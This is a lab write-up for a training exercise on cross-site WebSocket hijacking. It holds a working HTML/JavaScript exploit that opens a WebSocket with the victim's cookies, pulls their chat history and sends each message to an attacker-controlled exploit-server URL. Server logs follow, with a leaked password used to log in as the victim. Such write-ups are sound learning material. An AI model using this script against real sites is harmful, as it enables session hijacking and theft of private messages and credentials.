

# [Cross-site WebSocket hijacking](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab)

## Steps

- Goal is getting to the victims chat history. It's observed that `READY` returns all the previous messages for logged in user (distinguished by cookie passed in WebSocket handshake).



- To achieve the goal, this script is uploaded to exploit server:

```html
<script>
  var ws = new WebSocket(
    "wss://0a2f00aa03ebd90680ee031100c3005e.web-security-academy.net/chat",
  );

  ws.onopen = function () {
    ws.send("READY");
  };

  ws.onmessage = function (event) {
    fetch(
      "https://exploit-0af600f7037ad9bb8021022f018200b7.exploit-server.net/log?response=" +
        event.data,
    );
  };
</script>
```

- After this, exploit server showed logs:

```
77.105.18.45    2026-05-19 00:22:26 +0000 "GET /deliver-to-victim HTTP/1.1" 302 "user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36"
10.0.3.217      2026-05-19 00:22:27 +0000 "GET /exploit/ HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
10.0.3.217      2026-05-19 00:22:27 +0000 "GET /log?response={%22user%22:%22Hal%20Pline%22,%22content%22:%22Hello,%20how%20can%20I%20help?%22} HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
10.0.3.217      2026-05-19 00:22:27 +0000 "GET /log?response={%22user%22:%22You%22,%22content%22:%22I%20forgot%20my%20password%22} HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
10.0.3.217      2026-05-19 00:22:27 +0000 "GET /log?response={%22user%22:%22Hal%20Pline%22,%22content%22:%22No%20problem%20carlos,%20it&apos;s%20heu9948fagko4ghwis3l%22} HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
10.0.3.217      2026-05-19 00:22:27 +0000 "GET /log?response={%22user%22:%22You%22,%22content%22:%22Thanks,%20I%20hope%20this%20doesn&apos;t%20come%20back%20to%20bite%20me!%22} HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
10.0.3.217      2026-05-19 00:22:27 +0000 "GET /log?response={%22user%22:%22CONNECTED%22,%22content%22:%22--%20Now%20chatting%20with%20Hal%20Pline%20--%22} HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
77.105.18.45    2026-05-19 00:22:27 +0000 "GET / HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36"
```

- Decoded, the messages are:

```
{"user":"Hal Pline","content":"Hello, how can I help?"}
{"user":"You","content":"I forgot my password"}
{"user":"Hal Pline","content":"No problem carlos, it's heu9948fagko4ghwis3l"}
{"user":"You","content":"Thanks, I hope this doesn't come back to bite me!"}
{"user":"CONNECTED","content":"-- Now chatting with Hal Pline --"}
```

- Using the username `carlos` and password `heu9948fagko4ghwis3l` I was able to successfully login to victim's profile.
